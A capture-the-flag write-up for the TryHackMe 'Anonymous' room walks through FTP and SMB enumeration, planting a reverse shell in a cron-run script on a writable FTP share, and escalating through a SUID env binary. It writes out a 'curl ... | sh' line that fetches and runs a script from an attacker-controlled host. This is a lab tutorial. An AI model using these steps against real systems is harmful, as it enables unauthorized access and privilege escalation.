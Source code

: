 # This is a Writeup for the Room Anonymous on http://tryhackme.com 

### Enumeration

First we use nmap to see which ports are open and which services are running on them.

[![https://imgur.com/3KHpnMu.png](https://imgur.com/3KHpnMu.png)](https://imgur.com/3KHpnMu.png)

The first thing that catches our eye is the possibility to log into FTP anonymously which also hints to the room name so lets try that.

[![https://imgur.com/NSv0ZJ1.png](https://imgur.com/NSv0ZJ1.png)](https://imgur.com/NSv0ZJ1.png)

Lets discover which files we can find on the ftp server:

[![https://imgur.com/IyxL5jx.png](https://imgur.com/IyxL5jx.png)](https://imgur.com/IyxL5jx.png)

and use the get command to download the files.

The only interesting file we found is this bash script:

![Imgur](https://i.imgur.com/FS6sPPw.png) 

i am sure we can exploit it but lets first explore other options, we will find out later on.

Lets try to enumerate the SMB shares on Port 139 and 445

For this we can use the tool Enum4Linux which is pretty handy.

The usage is straight forward: 
enum4linux targetIP

We found a SMB share called pics.

![Imgur](https://i.imgur.com/ayu97kS.png)

Lets try to loginto that with the smbclient.

You can do that with the command:
smbclient \\\\targetip\\share -u anonymous
and no password.
There are only 2 pictures on the smbshare so we go back and explore the bash script in more detail.

It looks like a cronjob, so lets try if we can not only download but also upload files to ftp?

It works! 

So our next step are the following:
Download the clean.sh script, 

hide a command for a reverseshell inside 
(Place to find a reverseshell https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[![https://imgur.com/MYn1gRG.png](https://imgur.com/MYn1gRG.png)](https://imgur.com/MYn1gRG.png)

and replace the one on the ftp server with ours.

[![https://imgur.com/od1He2e.png](https://imgur.com/od1He2e.png)](https://imgur.com/od1He2e.png)

Now we only need to setup a nc listener and wait a bit, we are in!

[![https://imgur.com/cr43x7b.png](https://imgur.com/cr43x7b.png)](https://imgur.com/cr43x7b.png)

First lets get a better shell and then escalate our privileges!

We can use python for that: python -c 'import pty; pty.spawn("/bin/bash")'

### Privilege Escalation

Lets make our life easier by setting up a http server on my host machine and curl linpeas.sh on the target.

[![https://imgur.com/32WBOx6.png](https://imgur.com/32WBOx6.png)](https://imgur.com/32WBOx6.png)

With the command:

curl http://your_ip:8000/linpeas.sh | sh you can get linpeas.sh and execute it.

(Of course you need to download it first https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

We find that /usr/bin/env has the SUID binary bit set so we can check that on GTFOBINs (https://gtfobins.github.io/)

[![https://imgur.com/QhNXV9u.png](https://imgur.com/QhNXV9u.png)](https://imgur.com/QhNXV9u.png)

[![https://imgur.com/LwpJgWs.png](https://imgur.com/LwpJgWs.png)](https://imgur.com/LwpJgWs.png)

Now we can abuse it to escalate.

[![https://imgur.com/RinrpKl.png](https://imgur.com/RinrpKl.png)](https://imgur.com/RinrpKl.png)

In hindsight linpeas was maybe a bit overkill we could have also checked for SUID's manually with:

find / -perm /4000 -type f 2>/dev/null

Thank you for reading :)
